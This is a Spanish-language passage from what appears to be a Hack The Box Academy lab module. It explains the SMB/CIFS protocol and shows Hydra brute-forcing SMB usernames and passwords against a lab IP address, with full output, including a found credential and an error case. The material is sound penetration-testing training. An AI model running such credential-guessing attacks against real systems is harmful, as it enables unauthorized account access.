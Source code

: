 ![](https://academy.hackthebox.com/storage/modules/147/RDP.png)

---

# **SMB**

[Bloque de mensajes del servidor](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) es un protocolo responsable de transferir datos entre un cliente y un servidor en las redes de área local. Se utiliza para implementar servicios de intercambio e impresión de archivos y directorio en redes de Windows. SMB a menudo se conoce como un sistema de archivos, pero no lo es. SMB se puede comparar con`NFS`para Unix y Linux para proporcionar unidades en redes locales.

SMB también se conoce como[Sistema común de archivos de Internet](https://cifs.com/) (`CIFS`). Es parte del protocolo SMB y permite una conexión remota universal de múltiples plataformas como Windows, Linux o MacOS. Además, a menudo nos encontraremos[Samba](https://wiki.samba.org/index.php/Main_Page), que es una implementación de código abierto de las funciones anteriores. Para SMB, también podemos usar`hydra`Nuevamente para probar diferentes nombres de usuario en combinación con diferentes contraseñas.

### **Hydra - SMB**

Servicios de red

```
xnoxos@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found

```

Sin embargo, también podemos recibir el siguiente error que describe que el servidor ha enviado una respuesta no válida.

### **Hydra - Error**

Servicios de red

```
xnoxos@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/

```

